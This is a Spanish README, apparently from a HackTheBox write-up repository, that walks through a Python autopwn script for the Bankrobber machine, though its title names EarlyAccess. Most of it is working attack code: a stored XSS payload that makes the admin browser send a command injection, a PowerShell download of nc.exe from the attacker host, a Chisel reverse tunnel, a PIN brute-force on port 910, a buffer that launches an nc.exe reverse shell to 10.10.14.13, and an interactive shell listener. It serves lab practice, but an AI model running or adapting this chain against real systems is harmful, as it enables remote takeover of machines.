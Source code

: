 # Autopwn - EarlyAccess

En caso de no haber realizado la máquina Bankrobber, es recomendable revisar el [writeup](https://mrpr1ngl3s.github.io/htb/Bankrobber) para comprender el autopwn.

<p align="center">
	<img src="Img/Autopwn-Bankrobber.png"
		alt="autopwn"
	style="float: left; margin-right: 10px;" />
</p>

# Funcionamiento

El primer paso que realiza el script es en la creación del archivo, el cual primero descargara el binario **nc.exe** y luego ejecuta el **Chisel** como cliente.

```python3
content = f"""var request = new XMLHttpRequest();
var pwn = 'cmd=dir|powershell -c "iwr http://{MyIP}/nc.exe -outfile %temp%\\\\nc.exe" |start \\\\\\\\{MyIP}\\\\pwn\\\\chisel.exe client {MyIP}:8080 R:910:127.0.0.1:910';
request.open("POST", "http://localhost/admin/backdoorchecker.php", true);
request.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
request.send(pwn);
"""

with open('pwn.js', 'w') as file:
	file.write(content)
```
Despues, crea y ejecuta los servidores **HTTP** y **SMB**, junto con **Chisel**, en segundo plano.
```python3
http_server = subprocess.Popen(["python3","-m","http.server","80"],stdout=subprocess.PIPE,stderr=subprocess.PIPE, text=True)

chisel_server = subprocess.Popen(["./chisel","server","-p","8080", "--reverse"],stdout=subprocess.DEVNULL,stderr=subprocess.DEVNULL)


def smb_server():
    server = SimpleSMBServer()
    server.addShare("pwn", ".")
    server.setSMB2Support(True)
    server.start()

threading.Thread(target=smb_server, daemon=True).start()
```

Mientras, la función **register** crea el usuario que enviará el **XSS** al usuario admin, y la función  **login** obtiene el **ID** de dicho usuario para poder enviar el mensaje.

```python3
def register():

	url_register = main_url + "/register.php"

	data  = {
		"username": username,
		"password": password,
		"pounds": "Submit+Query"
	}

	r = requests.post(url_register, data=data)

	ID = login()

	return ID

def login():
	url_login = main_url + "/login.php"

	data  = {
		"username": username,
		"password": password,
		"pounds": "Submit+Query"
	}

	r = s.post(url_login, data=data)

	ID = s.cookies.get_dict()["id"]

	return ID
```
Con el **ID** ya obtenido, la función **Send_XSS** envía el mensaje y monitorea el servidor **HTTP** en espera de una petición **GET**. Para garantizar su persistencia, el mensaje se reenvía cada minuto en caso de que sea eliminado. Una vez que la petición es recibida, el proceso vuelve a esperar hasta que el puerto **910** es abierto.

```python3
def Send_XSS(ID):

	url_shell = main_url + "/user/transfer.php"

	headers= {
	"Content-Type": "application/x-www-form-urlencoded"
	}

	data = {
		"fromId": ID,
		"toId": "1",
		"amount": "1",
		"comment": "<script src='http://%s/pwn.js'></script>" % MyIP
	}

	threading.Thread(target=logs_get, daemon=True).start()

	r = s.post(url_shell, data=data, headers=headers)


	while "GET" not in line:
		r = s.post(url_shell, data=data, headers=headers)
		time.sleep(60)

	while True:
		if check_port("0.0.0.0", 910):
			threading.Thread(target=brutef_buffer, daemon=True).start()
			break

def check_port(host, port):
	with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
			sock.settimeout(1)
			result = sock.connect_ex((host, port))
			return result == 0


def logs_get():
	global line
	line = http_server.stderr.readline().strip()
	print(line)
```

Tras la apertura del puerto **910** comienza el ataque de fuerza bruta en segundo plano, mientras por otro lado, es puesto en escucha, para recibir la shell como el usuario admin.

```python3
def brutef_buffer():

	buffer = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\\Users\\Cortin\\AppData\\Local\\Temp\\nc.exe 10.10.14.13 444 -e cmd.exe"

	for pin in range(10000):

		pin = str(pin).zfill(4)

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(("127.0.0.1", 910))

		data = s.recv(1024)

		s.send(pin.encode() + b'\n')

		data = s.recv(1024)

		if "Access denied" not in data.decode():
			print(pin)
			s.send(buffer.encode() + b'\n')
			s.close()
			break

		time.sleep(2)

def receive_all(conn):
	# Recibe datos en un bucle hasta que no haya más.
	data = b""
	conn.settimeout(2)  # Tiempo de espera breve para evitar bloqueos
	try:
		while True:
			chunk = conn.recv(4096)
			if not chunk:
				break
			data += chunk
	except socket.timeout:
		pass  # El timeout indica que no hay más datos por recibir
	return data.decode("ISO-8859-1", errors="ignore") # Devuelve los datos decodificados en ISO-8859-1, ignorando errores en la conversión



def R_Shell():

	HOST = "0.0.0.0"
	PORT = 444

	server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	server.bind((HOST, PORT))
	server.listen(5)  # Permite múltiples conexiones

	cont = 0


	while True:
		conn, addr = server.accept()

		while True:
			if cont == 0:
				conn.send("taskkill /IM chisel.exe /F".encode() + b"\n")

			time.sleep(1)
			command = input("$ ")
			if command.lower() == "exit":
				conn.send(b"exit")
				conn.close()
				break
			conn.send(command.encode() + b"\n")
			result = receive_all(conn)
			print(result)
			cont = 1
```
